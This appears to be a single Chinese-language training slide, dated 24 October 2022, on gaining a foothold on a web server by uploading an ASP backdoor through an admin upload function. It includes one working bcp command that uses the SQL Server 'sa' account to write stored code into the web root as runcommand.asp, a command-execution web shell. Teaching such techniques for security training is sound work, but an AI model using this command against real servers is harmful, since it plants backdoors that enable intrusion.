

# 上传ASP后门，得到默认账户权限
后台管理界面
利用提供的上传/下载文件等功能上传ASP后门
 Web服务器软件的默认账户权限
本地受限账户命令执行
Web虚拟目录中文件上传/下载
利用MS SQL Server的BCP命令
bcp "select codes from tmp_tbl" queryout c:\inetpub\wwwroot\runcommand.asp –c –S localhost –U sa –P foobar
2022年10月24日
14